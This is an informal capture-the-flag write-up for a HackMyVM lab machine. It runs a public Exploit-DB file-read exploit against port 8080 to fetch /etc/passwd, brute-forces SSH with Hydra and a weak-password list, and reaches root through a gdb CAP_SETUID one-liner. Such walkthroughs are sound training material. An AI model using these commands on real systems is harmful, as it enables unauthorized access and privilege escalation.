 # qweasd
**network discovery**
```
I usually use __Fping__ command to watch active machines in my network  
```
![fping_image](images/fping.png)
```
i saw the __192.168.1.113__ is my the **CTF** machine 
![namp]https://github.com/HosseinVampire/Writeups/blob/main/Hackmyvm/Asdqwe/images/fping.png)
```

### FIND 8080 port lets check it
```
i did some search on site but nothing ....
only got this information 
```
![info](images/information.png)
```
i tried to brouteforce the login page but its seems to protected  so i got stuck 
```
##  Exploit-db
```
i check exploit-db  and this is result 
```
![exploit-db](images/searchsploit.png)
```
exploit number is  __51993__
i import the file and can read some files  
```
```bash
python 51993.py  -u http://192.168.1.113:8080 -p /etc/passwd
```
### Content of passwd :

![passwd](images/passwd.png)

```
users that have bash : Root , kali , penetration 
*i serched a lot for id_rsa or any password but nothing ...*
i spend a 30 min to figure the solution of gettin a shell it  .   
from the name of machine i thought that password might be a silly  so ...
```


## Hydra
**hydra -l kali -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  ssh://192.168.1.113**
![hydrapassword](images/hydra.png)

## PRIV ESC - ROOT
``` 
Getting root was easy 
check  capabilities and got below results :
```
![cap](images/setuiddiscovery.png)
```
Find *GDB* command that got capabilities 
```
```
**If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.**
```
# ROOT ACCESS :
```
**gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit**
```
DONE :)

![root](images/root.png)
```
it is my first write up, im sorry if i explained bad <3
```



## thanks to my friend ll104567 for tips 
### you can check his bilibili url 
[Bilibili](https://space.bilibili.com/20805349)

